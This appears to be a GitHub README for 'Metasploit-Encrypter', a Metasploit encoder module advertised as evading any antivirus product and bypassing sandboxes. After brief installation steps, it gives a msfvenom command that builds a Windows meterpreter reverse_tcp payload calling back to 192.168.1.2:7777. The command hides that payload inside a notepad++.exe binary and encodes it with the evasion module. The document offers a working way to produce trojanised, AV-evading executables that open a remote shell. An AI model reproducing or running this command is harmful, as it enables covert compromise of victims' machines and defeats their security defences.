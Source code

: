 # Metasploit-Encrypter

This tool permit to evade any antivirus products.
It use a brute force attack on a known plain text to bypass the sandbox.

![alt tag](https://github.com/MrMugiwara/Metasploit-Encrypter/blob/master/msfencrypt.png)


# Installation
-----------

Copy msfencrypt.rb in metasploit/modules/encoders/x86/

# Usage
-----------

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=7777 -f raw -x notepad++.exe -f exe-only -e x86/msfencrypt -o output.exe


